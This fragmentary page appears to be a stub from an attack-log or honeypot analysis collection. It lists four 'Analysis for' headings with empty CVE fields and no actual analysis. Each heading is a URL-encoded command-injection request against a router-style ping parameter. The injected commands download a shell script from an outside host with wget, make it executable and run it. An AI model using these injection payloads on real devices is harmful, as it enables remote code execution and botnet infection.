 # Analysis for /op_type=ping&destination=cd%20/tmp;%20wget%20http://iotlmao.xyz/lolol.sh;%20chmod%20777%20lolol.sh;%20sh%20lolol.sh
## CVE: # Analysis for /op_type=ping&destination=cd%20/tmp;%20wget%20http://45.133.1.133/lolol.sh;%20chmod%20777%20lolol.sh;%20sh%20lolol.sh
## CVE: # Analysis for /op_type=ping&destination=cd%20/tmp;%20wget%20http://37.46.150.102/lolol.sh;%20chmod%20777%20lolol.sh;%20sh%20lolol.sh
## CVE: # Analysis for /op_type=ping&destination=cd%20/tmp;%20wget%20http://185.239.242.63/lolol.sh;%20chmod%20777%20lolol.sh;%20sh%20lolol.sh
## CVE: 